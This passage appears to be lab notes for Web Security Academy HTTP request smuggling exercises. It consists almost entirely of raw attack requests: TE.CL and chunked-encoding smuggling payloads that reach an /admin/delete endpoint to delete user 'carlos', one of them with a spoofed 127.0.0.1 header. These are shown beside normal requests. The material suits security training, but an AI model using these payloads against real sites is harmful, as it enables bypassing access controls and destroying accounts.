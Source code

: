 ```html

x=
```

#### Normal Request

```html
POST / HTTP/1.1
Host: 0afe003c04eb401081187f72001800e0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

foo = bar
```

### Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

#### Attack Request

```html
POST / HTTP/1.1
Host: 0a560052044f34b183eb28260093007b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

50
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 6

0

```

#### Normal Request

```html
POST / HTTP/1.1
Host: 0a560052044f34b183eb28260093007b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

foo=bar


```

### Exploiting HTTP request smuggling to reveal front-end request rewriting

```html
POST / HTTP/1.1
Host: 0a4d00c7030f427a814ed94700d0001a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 167
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-hSlExB-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close
```